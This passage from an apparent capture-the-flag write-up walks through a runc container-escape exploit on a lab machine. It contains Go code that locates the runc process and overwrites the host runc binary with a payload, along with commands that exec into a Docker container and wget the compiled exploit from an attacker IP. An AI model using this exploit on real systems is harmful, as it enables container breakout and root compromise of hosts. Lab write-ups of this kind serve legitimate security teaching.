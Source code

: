 ```go
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			if strings.Contains(fstring, "runc") {
				fmt.Println("[+] Found the PID:", f.Name())
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
			}
		}
	}

	// We will use the pid to get a file handle for runc on the host.
	var handleFd = -1
	for handleFd == -1 {
		// Note, you do not need to use the O_PATH flag for the exploit to work.
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		if int(handle.Fd()) > 0 {
			handleFd = int(handle.Fd())
		}
	}
	fmt.Println("[+] Successfully got the file handle")

	// Now that we have the file handle, lets write to the runc binary and overwrite it
	// It will maintain it's executable flag
	for {
		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
		if int(writeHandle.Fd()) > 0 {
			fmt.Println("[+] Successfully got write handle", writeHandle)
			writeHandle.Write([]byte(payload))
			return
		}
	}
}
```

```php
$ go build main.go
```

Looking at `/bin/bash` it has the normal permissions before performing the exploit.

```php
noah@thenotebook:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

First we start two parallel ssh sessions on the target to run and trigger the exploit. Now we connect to the docker container as the PoC mentions, download and run our compiled go binary.

```php
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 sh
# cd /tmp
# wget 10.10.14.22/main
--2021-07-31 09:44:23--  http://10.10.14.22/main
Connecting to 10.10.14.22:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2140271 (2.0M) [application/octet-stream]
Saving to: ‘main’

main                                                       100%[========================================================================================================================================>]   2.04M  3.78MB/s    in 0.5s

```